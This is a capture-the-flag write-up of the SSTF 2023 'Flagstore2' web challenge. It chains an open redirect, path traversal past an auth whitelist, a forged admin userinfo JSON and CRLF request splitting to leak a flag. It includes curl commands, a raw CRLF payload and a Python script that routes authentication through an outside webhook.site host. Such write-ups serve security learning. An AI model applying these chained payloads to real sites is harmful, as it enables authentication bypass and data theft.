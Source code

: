```yaml
---
layout: post
title: Flagstore2
category: SSTF 2023
---
```


In this write-up, I will outline the steps I took to solve the SSTF FLAGSTORE2 challenge.

To begin, upon reviewing the code, a potential **open redirect** in `logout.php` is evident due to this line: `header("Location: " . $return_uri);`.

This can be verified by using the command: `curl -v http://flagstore2.sstf.site:13337/logout.php?return_uri=https://google.com`.

![Screenshot 2023-08-20 at 14 46 25](https://github.com/tnmch/tnmch.github.io/assets/7364615/db1fa688-f6ba-427a-a935-53394907508e)

Next, upon using the application, it becomes clear that the application employs **Keycloak** for managing the authentication process, using the latest version. The implementation of this configuration is based on some PHP code. After reviewing the `login.php`, it is confirmed that by controlling `$_GET["auth_server"]`, the authentication can be completely bypassed.

Initially, we considered using an **open redirect** to forward all requests. However, due to these two lines, this approach is not feasible:

```php
    if (!str_starts_with($_GET["auth_server"], $AUTH_SERVER)) 
        die("auth_server is not in whitelist.");
```

Here's where we combine **directory traversal** with NGINX to achieve a bypass:

```nginx
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        access_log  /dev/null;
        error_log /dev/null;
        root /var/www/html;
        index index.php;
        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                try_files $uri =404;
                fastcgi_split_path_info ^(.+\.php)(/.+)$;
                fastcgi_pass unix:/run/php/php8.1-fpm.sock;
                fastcgi_index index.php;
                include fastcgi_params;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                fastcgi_param PATH_INFO $fastcgi_path_info;
        }

        location ~ /\.ht {
              deny all;
        }
}
```

Using the following command, we can gain control over the `auth_server` parameter and subsequently over requests and responses:

`curl "http://flagstore2.sstf.site:13337/sso/admin/../../logout.php?return_uri=https://google.com" -v`

![Screenshot 2023-08-20 at 15 39 01](https://github.com/tnmch/tnmch.github.io/assets/7364615/4e142e85-2124-4a0d-8d22-83debc8e2bb6)

This grants us control over parameters such as `uid`, `username`, `access_token`, and `refresh_token` in the session data. (Refer to `callback.php` for details.)

```php
    include_once("config.php");
    include_once("auth_service.php");
    session_start();

    if (!isset($_SESSION["auth_server"])) 
        die("auth_server is not set.");
    
    if (!isset($_SESSION["state"]) || $_SESSION["state"] != $_GET["state"])
        die("Invalid state.");
        
    if (!isset($_GET["code"])) 
        die("Invalid code.");

    $res = request_token($_SESSION["auth_server"], $CLIENT_ID, $_SESSION["redirect_uri"], $_SESSION["code_verifier"], $_GET["code"]);
    $res = json_decode($res, true);
    if(!isset($res["access_token"]))
        die("Invalid access token.");

    $user = request_user_info($_SESSION["auth_server"], $res["access_token"]);

    if($user == null)
        die("Invalid access token.");

    $_SESSION["uid"] = $user["sub"];
    $_SESSION["username"] = $user["preferred_username"];
    $_SESSION["access_token"] = $res["access_token"];
    $_SESSION["refresh_token"] = $res["refresh_token"];

    header("Location: /index.php");
?>
```

Access to the `/admin` path is restricted to admin users only (`if($_SESSION["username"] != "admin") die("you are not admin");`). By manipulating reset password requests, a specially crafted JSON payload can be used, containing `"preferred_username"=> "admin"`.

```json
{"preferred_username":"admin","access_token":"random","sub":"sdfsdf"}
```

However, accessing the flag and leaking it requires further steps. The following PHP code snippet is used to reset the admin password with flag value:

```     php
    $password = file_get_contents('/flag', true);
    request_resetpassword($AUTH_SERVER, $_SESSION["access_token"], $_SESSION["uid"], $password);
```

By combining **CRLF** and **HTTP request splitting**, the password reset body data can be sent in a new request, potentially leading to leakage. As we control `$_SESSION["access_token"]`, which serves as a request header, this can be exploited.

In the `order.php` file, the lines below allow order submissions:

```    php
    {
        echo "Order is submitted! <br />";
        if(!isset($_SESSION["orders"]))
            $_SESSION["orders"] = array();
        array_push($_SESSION["orders"], $_POST);
    }
```

Exploiting this, the `POST /orders.php` endpoint can be utilized, with the admin password reset data in its body. However, an issue arises where the order field needs to be matched:

```        php
        {
            echo "========================================  <br />";
            echo "No: " . $order["idx"] . "<br />";
            echo "Name: " . $order["name"] . "<br />";
            echo "Price: " . $order["price"] . "<br />";
            echo "========================================  <br />";
        }
```

My teammate, [parrot](https://twitter.com/parrot409), suggested using `multipart` and sending all body data as a single field. This idea was confirmed to work:

```http
Host: flagstore2.sstf.site:13337
Cookie: PHPSESSID=fb02mj05t9krlbekd7nk6lguut
Content-Type: multipart/form-data; boundary=----aaa
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Content-Length: 104

------aaa
Content-Disposition: form-data; name="name"

type=password&temporary=0&value=flagwillbehere
```

![Screenshot 2023-08-20 at 14 18 01](https://github.com/tnmch/tnmch.github.io/assets/7364615/0d7f0bdc-dd56-4f5b-b839-d6ad07ffcb8e)

To recreate the JSON payload with the new CRLF payload, follow this example:

```json
{"preferred_username":"admin","access_token":"AA\r\n\r\nPOST /orders.php HTTP/1.1\r\nHost: flagstore2.sstf.site:13337\r\nContent-Type: multipart/form-data; boundary=---------------------------735323031399963166993862151\r\nCookie: PHPSESSID=ihsdcioborim07md00e79jo6bl\r\nContent-Length: 321\r\n\r\n-----------------------------735323031399963166993862151\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA","sub":"sdfsdf"}
```

To automate the process, a Python script can be used:

```python
r= requests.session()

redirect = r.get('http://flagstore2.sstf.site:13337/login.php?auth_server=http://flagstore2.sstf.site:13337/sso/admin/../../logout.php?return_uri=https://webhook.site/xxxxxxxx?a=',allow_redirects=False)
state = redirect.headers['location']
state = state[state.index('state')+6:]
state = state[:state.index('&')]
r.get('http://flagstore2.sstf.site:13337/callback.php?code=lmao&state='+state)
r.get('http://flagstore2.sstf.site:13337/admin/reset.php')
```

By utilizing the `PHPSESSID=ihsdcioborim07md00e79jo6bl` and making a simple request to `/orders.php`, the flag can be leaked, as shown in the following screenshot:

![Screenshot 2023-08-19 at 12 33 46](https://github.com/tnmch/tnmch.github.io/assets/7364615/980bf190-1ee6-4836-8f00-3e6b15e91ff6)

Please let me know if you have any further questions or if there's anything else I can assist you with.

In the end, our team was the only one to crack this challenge

<img width="916" alt="Screenshot 2023-08-19 at 15 42 59" src="https://github.com/tnmch/tnmch.github.io/assets/7364615/6b74e70c-cb54-4ea9-8c0e-f5da44a1eaf7">

